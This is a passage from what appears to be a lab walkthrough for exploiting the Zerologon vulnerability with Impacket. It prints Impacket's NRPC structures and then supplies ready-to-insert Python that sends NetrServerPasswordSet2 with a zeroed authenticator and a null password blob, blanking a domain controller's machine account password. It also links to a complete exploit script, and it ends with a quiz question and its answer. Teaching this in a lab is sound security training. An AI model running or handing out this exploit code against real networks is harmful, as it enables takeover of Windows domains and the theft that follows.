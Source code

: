 Level Up -

Now that we know the required arguments to change the password via NRPC, we actually have to implement it in Python. We need to take a look at the nrpc.py module within Impacket to see the required structure for how we can craft a netrServerPasswordSet2 Request:

def hNetrServerPasswordSet2(dce, primaryName, accountName, secureChannelType, computerName, authenticator, clearNewPasswordBlob):
    request = NetrServerPasswordSet2()
    request['PrimaryName'] = checkNullString(primaryName)
    request['AccountName'] = checkNullString(accountName)
    request['SecureChannelType'] = secureChannelType
    request['ComputerName'] = checkNullString(computerName)
    request['Authenticator'] = authenticator
    request['ClearNewPassword'] = clearNewPasswordBlob
    return dce.request(request)
As expected, most of the field names are the same as what Microsoft provided, except with some differences. Next, we need to know how to structure the Authenticator portion as well:

class NETLOGON_AUTHENTICATOR(NDRSTRUCT):
    structure = (
        ('Credential', NETLOGON_CREDENTIAL),
        ('Timestamp', DWORD),
    )

The format here is a little bit different compared to the prior, but we'll adjust accordingly when we go to slot it into the PoC, but while we're talking about slotting it into the PoC, where will our added code go?

Our added code will go immediately before "return rpc_con" on line 45. This is where we know we have successful authentication, we want to grab that before we return to the previous function and terminate the RPC connection. Now that we know all the required information that we'll need to add to the PoC, we'll save you the painstaking effort of writing your own code, and you can use the pre-written code below. The above explanations should help aid in understanding it.

The Additional Code we're slotting in:
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
At this point, your code should be good to go, and you should be able to successfully exploit Zero Logon. If you are still having issues, you can use the following code found here:

https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py


What method will allow us to change Passwords over NRPC?
*NetrServerPasswordSet2*

